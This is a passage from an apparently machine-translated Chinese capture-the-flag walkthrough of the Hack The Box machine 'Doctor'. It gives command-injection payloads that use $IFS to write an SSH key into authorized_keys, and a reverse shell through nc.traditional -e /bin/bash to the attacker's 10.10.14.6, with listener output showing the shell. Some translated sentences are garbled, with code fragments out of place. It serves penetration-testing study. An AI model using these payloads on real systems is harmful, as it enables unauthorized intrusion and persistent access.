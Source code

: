     http://10.10.14.6/$(mkdir$IFS'/home/web/.ssh')
    

然后我会写下我的密钥：

    http://10.10.14.6/$(echo$IFS'ssh-ed25519'$IFS'AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d'>'/home/web/.ssh/authorized_keys')
    

现在，我将连接该密钥并拥有一个 SSH 外壳：

    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# ssh -i ~/keys/ed25519_gen web@10.10.10.209
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    
    76 updates can be installed immediately.
    36 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    Your Hardware Enablement Stack (HWE) is supported until April 2025.
    Last login: Sun Nov  1 16:25:12 2020 from 10.10.14.6
    web@doctor:~$
    

#### 壳通过 nc.传统

如果我从连接（不是 shell）开始，它的有效负载为：`nc``http://10.10.14.6/$(nc$IFS'10.10.14.6'$IFS'443')`

    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40418.
    

各种反向外壳不起作用。我试过，以及Bash反向炮弹，但没有成功。最终我尝试了（这就像，但会有标志），它的工作原理：`-e /bin/bash``nc``nc.traditional``nc``-e`

    http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')
    

我得到了一个外壳：

    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40450.
    id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
    